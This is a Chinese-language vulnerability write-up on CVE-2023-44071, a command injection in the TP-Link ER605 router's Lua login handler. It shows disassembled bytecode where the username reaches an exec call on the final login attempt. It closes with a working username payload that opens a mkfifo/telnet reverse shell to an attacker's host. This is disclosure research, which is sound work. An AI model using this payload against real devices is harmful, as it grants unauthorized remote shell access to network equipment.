



# TP-Link ER605 Command injection

[English](https://github.com/Zhi0Yuan/MyBlog/blob/main/tp-link-er605/tp-link-er605-en.md)

## 前言

> 这是我写这个漏洞文章的第二版，发现漏洞的契机是在去年的PWN2OWN TORONTO 2023这个设备是比赛的目标设备，在比赛的固件中已修复了该问题，让我们来简单的看一下这个漏洞吧。

## 分配的CVE

> CVE-2023-44071

## 影响版本

> ER605(UN)_V1_1.3.0 Build 20230511, ER605(UN)_V2_2.1.2 Build 20230210

## 分析

> 下载存在漏洞的版本，直接使用unblob提取固件



> 查看文件系统就是openwrt，所以直接定位luci去进行代码审计通过，通过搜索危险函数定位到，/usr/lib/lua/luci/controller/login.lua 在登录的lua文件中居然存在exec函数，在luci中luci.sys.exec是用来执行系统命令的。



> 当然真实情况是我将编译的lua文件进行反编译后在vscode中找危险函数始终没有进展(因为反编译工具始终没有正确识别exec函数)，后面直接使用grep去搜索危险函数才发现login中存在exec



> 由于反编译的代码中并没有成功识别exec函数我只能够使用`luadec -dis`反汇编所以下面的都是汇编代码，阅读起来一点麻烦。定位到exec函数
```
         ...
  180 [-]: GETGLOBAL R20 K16      ; R20 := string
  181 [-]: GETTABLE  R20 R20 K54  ; R20 := R20["format"]
  182 [-]: LOADK     R21 K55      ; R21 := "ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"
  183 [-]: GETUPVAL  R22 U11      ; R22 := U11
  184 [-]: GETUPVAL  R23 U12      ; R23 := U12
  185 [-]: GETUPVAL  R24 U13      ; R24 := U13
  186 [-]: MOVE      R25 R7       ; R25 := R7
  187 [-]: GETUPVAL  R26 U14      ; R26 := U14
  188 [-]: MOVE      R27 R9       ; R27 := R9
  189 [-]: GETTABLE  R28 R18 K42  ; R28 := R18["attempts"]
  190 [-]: CALL      R20 9 2      ; R20 := R20(R21 to R28)
  191 [-]: GETTABLE  R21 R3 K56   ; R21 := R3["exec"]
  192 [-]: MOVE      R22 R20      ; R22 := R20
  193 [-]: CALL      R21 2 1      ;  := R21(R22) //这里存在可能的 command injection
         ...
```

> 可以看到在181行中使用了string.format字符串格式化函数，推测使用string.format格式化`"ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"` 可以看到其中的userName可能可以控制，寻找如何接收username?

```
    0 [-]: NEWTABLE  R1 0 0       ; R1 := {} (size = 0,0)
    1 [-]: GETGLOBAL R2 K0        ; R2 := require
    2 [-]: LOADK     R3 K1        ; R3 := "luci.sauth"
    3 [-]: CALL      R2 2 2       ; R2 := R2(R3)
    4 [-]: GETGLOBAL R3 K0        ; R3 := require
    5 [-]: LOADK     R4 K2        ; R4 := "luci.sys"
    6 [-]: CALL      R3 2 2       ; R3 := R3(R4)
    7 [-]: GETGLOBAL R4 K0        ; R4 := require
    8 [-]: LOADK     R5 K3        ; R5 := "luci.model.checktypes"
    9 [-]: CALL      R4 2 2       ; R4 := R4(R5)
   10 [-]: GETUPVAL  R5 U0        ; R5 := U0
   11 [-]: GETTABLE  R5 R5 K4     ; R5 := R5["decode"]
   12 [-]: GETTABLE  R6 R0 K5     ; R6 := R0["data"]
   13 [-]: CALL      R5 2 2       ; R5 := R5(R6)
   14 [-]: GETTABLE  R6 R5 K6     ; R6 := R5["params"]
   15 [-]: GETTABLE  R7 R6 K7     ; R7 := R6["username"] //获取username的值，存放在R7中
   16 [-]: GETTABLE  R8 R6 K8     ; R8 := R6["password"]
   17 [-]: GETTABLE  R9 R3 K9     ; R9 := R3["getenv"]
   18 [-]: LOADK     R10 K10      ; R10 := "REMOTE_ADDR"
   19 [-]: CALL      R9 2 2       ; R9 := R9(R10)
   20 [-]: LOADNIL   R10 R10      ; R10 := nil
   21 [-]: GETTABLE  R11 R4 K11   ; R11 := R4["check_ip_in_lan"]
   22 [-]: MOVE      R12 R9       ; R12 := R9
   23 [-]: CALL      R11 2 2      ; R11 := R11(R12)
   24 [-]: NOT       R11 R11      ; R11 := not R11
   25 [-]: LOADNIL   R12 R12      ; R12 := nil
                ...
```

> 在15行使用require接收username，存放到R7中。而正好在186行使用了R7。现在可以推测我们只需要在登录的时候更改username为shell command就可以注入了吗?

> 当然我们失败了，但是为什么难道这个username是从别的地方来的吗？向前查看代码我发现了一些判断！

```
         ...
  176 [-]: GETTABLE  R20 R18 K42  ; R20 := R18["attempts"]
  177 [-]: GETUPVAL  R21 U4       ; R21 := U4
  178 [-]: EQ        0 R20 R21    ; if R20 == R21 then goto 180 else goto 194
  179 [-]: JMP       14           ; PC += 14 (goto 194)
         ...
```
> 当R20等于R21时我们将jmp到180，也就是执行exec的地方，所以这是什么东西呢?

```

  157 [-]: GETUPVAL  R20 U4       ; R20 := U4
  158 [-]: GETTABLE  R21 R18 K42  ; R21 := R18["attempts"]
  159 [-]: SUB       R20 R20 R21  ; R20 := R20 - R21 
  160 [-]: SETTABLE  R1 K45 R20   ; R1["attemptsAllowed"] := R20
  161 [-]: TEST      R11 0        ; if R11 then goto 163 else goto 170
  162 [-]: JMP       7            ; PC += 7 (goto 170)

```

> 继续向前面查看可以看到在158行也对R20和R21执行了什么操作，在下面可以看到attemptsAllowed，那么会不会是允许登录的次数，因为在测试登录时系统会提醒还有多少次尝试登录的机会。

> 没错我们赌赢了✌️！确实是这样的，当我们尝试登录到第十次，也就是最后一次机会时将用户名更改为shellcommand。我们将会获取一个漂亮的shell🫡！

```sh
'`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet ip port > f`'
```

## Vido

https://drive.google.com/file/d/1bXSqmImmRc7TIJ8HjFDIc1s0EDJuQpEz/view?usp=sharing
